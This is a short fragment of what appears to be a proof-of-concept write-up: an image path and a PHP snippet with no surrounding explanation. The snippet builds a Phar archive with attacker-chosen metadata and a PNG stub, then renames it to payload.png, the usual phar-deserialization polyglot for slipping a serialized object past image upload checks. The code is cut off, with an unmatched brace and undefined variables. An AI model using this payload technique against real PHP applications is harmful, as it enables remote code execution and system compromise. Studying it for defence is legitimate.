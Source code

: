 ```php
    $phar = new Phar('poc.phar', 0);
    $phar->addFromString('test.txt', 'test');
    $phar->setMetadata($image);
    $phar->setStub("${png} __HALT_COMPILER(); ?>");

    rename('poc.phar', 'payload.png');
}
```
